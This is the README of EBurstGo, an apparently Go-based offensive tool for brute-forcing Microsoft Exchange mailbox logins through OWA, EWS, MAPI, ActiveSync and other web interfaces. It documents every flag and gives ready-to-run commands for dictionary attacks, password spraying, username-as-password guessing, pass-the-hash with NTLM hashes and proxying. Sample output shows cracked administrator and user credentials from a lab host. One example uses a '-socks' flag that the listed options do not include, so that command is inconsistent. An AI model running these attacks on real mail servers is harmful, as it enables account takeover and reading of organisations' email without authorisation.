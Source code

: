 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目使用 Go 语言重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

注意 Releases 中的代码不一定是最新的

建议将本项目 clone 下来然后执行 `goreleaser build --snapshot` 手动编译

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检测目标 Exchange 可用接口
  -debug
    	显示 Debug 信息
  -delay int
    	请求延时
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange Web 接口
  -nocolor
    	关闭输出颜色
  -nosave
    	不将结果输出至文件
  -o string
    	指定结果输出文件 (default "result.txt")
  -pass string
    	指定密码
  -passf string
    	密码字典
  -proxy string
    	指定 socks/http(s) 代理
  -pth
    	指定为 Pth 模式 (Pass The Hash)
  -t int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	指定用户名
  -user-as-pass
    	指定密码与用户名相同
  -userf string
    	用户名字典
  -userpassf string
    	指定用户名密码字典 (user:pass)
  -v	显示详细信息
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] 检测目标 Exchange 可用接口
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

默认会将爆破成功的账户追加写入 result.txt

```shell
# 常规爆破
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews

# 指定用户名
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user Alice -passf pass.txt -mode ews

# 密码喷洒
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -pass 'Changeme123' -mode ews

# 支持 user:pass 格式的字典
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userpassf userpass.txt -mode ews

# 密码与用户名相同
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -user-as-pass -mode ews

# Pth 爆破 (pass.txt 为 NTLM Hash)
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -pth

# 设置 socks/http(s) 代理
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -socks socks5://127.0.0.1:1080
```

examples

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews
[*] 用户名:7 密码:9 共计:63
[*] 使用 ews 接口爆破: https://192.168.30.11
[+] 成功: Administrator:abcd1234!@#$
[+] 成功: Alice:Alice123!
[+] 成功: Bob:Bob123!
[+] 成功: Marry:Marry123!
[*] 耗时: 3.031753209s
```

## Todo

- 开启代理使用 NTLM 认证爆破一段时间后出现 `connection refused`, 待解决
  这个目前来说好像没有什么好的解决方法(?) 只能通过将协程数量调小 + 添加延时来避免

- `/powershell` 接口 (Kerberos 认证) 待支持

## License

Modified some code from the following repos

[Azure/go-ntlmssp](https://github.com/Azure/go-ntlmssp): Copyright (c) 2016 Microsoft The MIT License (MIT)

